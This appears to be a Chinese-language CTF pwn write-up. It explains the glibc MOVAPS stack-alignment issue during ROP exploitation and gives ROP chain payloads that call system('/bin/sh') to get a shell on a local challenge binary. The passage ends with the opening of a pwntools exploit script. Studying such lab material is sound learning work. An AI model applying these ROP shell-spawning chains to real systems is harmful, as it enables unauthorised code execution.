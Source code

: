 在参考资料 3 中，有一段来自 guide 的话：

> **The MOVAPS issue**
> If you're segfaulting on a `movaps` instruction in `buffered_vfprintf()` or `do_system()` in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as `printf()` or `system()`. Some versions of GLIBC uses `movaps` instructions to move data onto the stack in certain functions. The 64 bit calling convention requires the stack to be 16-byte aligned before a `call` instruction but this is easily violated during ROP chain execution, causing all further calls from that function to be made with a misaligned stack. `movaps` triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra `ret` before returning into a function or return further into a function to skip a `push` instruction.

简要的意思就是，在一些版本的 GLIBC 中，要求堆栈在调用指令之前必须 16 字节对齐，使用 movaps 操作指令来检查该项是否符合标准，至于如何观察 **堆栈是否是 16 字节对齐**

<img src="E:\Pictures\markdown\image-20230226194342467.png" alt="image-20230226194342467" style="zoom:80%;" />

如图所示，确保当执行到这串汇编指令时，栈顶的值（图中 rsp 所指位置，也即 0x7ffe45a3a008）应该可以整除 16，这就要求rsp 中的值末位必须是 0（然而图中的是 8）。由于调用 do_system 函数中汇编指令已经定死，想要让程序运行到 movaps 的时候正好有一个 16 字节对齐的栈顶，最简单的方法就是在调用 do_system 之前 ret 一次，让栈顶再降低一次（每次降低会 +8）就行。

于是我们最后的 rop 链应当修改一下：`b'a'*(0xb + 0x8) + p64(bin_ret) + p64(bin_pop_rdi_ret) + p64(libc_str_bin_sh) + p64(libc_system)`

<img src="E:\Pictures\markdown\image-20230226195715774.png" alt="image-20230226195715774" style="zoom:80%;" />

最后成功 getshell

## 题解 2

当然需要拿一个低版本没有 movaps 对齐的 glibc 来作对比，此处需要到 **glibc all in one**、**patchelf** 相关补充内容，在文末会有相关介绍，此处不再赘述。

目前能够确定从 **glibc all in one** 里下下来的最旧的 glibc 版本 `2.23-0ubuntu3_amd64` 是没有 movaps 检查的，替换相应的 glibc 版本效果如图所示：

<img src="E:\Pictures\markdown\image-20230226201828770.png" alt="image-20230226201828770" style="zoom:80%;" />

对应的 rop 链就可以使用不加 ret 的版本了：`b'a'*(0xb + 0x8) + p64(bin_pop_rdi_ret) + p64(libc_str_bin_sh) + p64(libc_system)`

## EXP

> 高版本的 glibc，对应题解 1

```python
# -*- coding: utf-8 -*-

'''
[*] '/home/wkyuu/Desktop/temp/blog4'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
'''

from pwn import *
import pwn

p64 = pwn.p64
u64 = pwn.u64

# context(log_level='debug', terminal=['tmux', 'splitw', '-h'])
context(log_level='debug')
fileName = './blog4'
p = process(fileName)
```